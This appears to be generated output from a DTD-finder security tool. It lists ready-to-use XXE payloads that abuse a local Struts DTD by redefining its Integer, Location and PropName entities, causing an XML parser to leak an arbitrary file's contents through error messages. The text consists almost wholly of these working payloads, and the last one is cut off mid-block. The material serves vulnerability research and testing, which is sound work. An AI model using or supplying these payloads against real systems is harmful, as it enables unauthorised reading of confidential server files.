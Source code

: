 **Injectable entity:** `Integer`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_0.dtd">

    <!ENTITY % Integer '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_0.dtd`

**Injectable entity:** `Location`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_0.dtd">

    <!ENTITY % Location 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_0.dtd`

**Injectable entity:** `PropName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_0.dtd">

    <!ENTITY % PropName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

```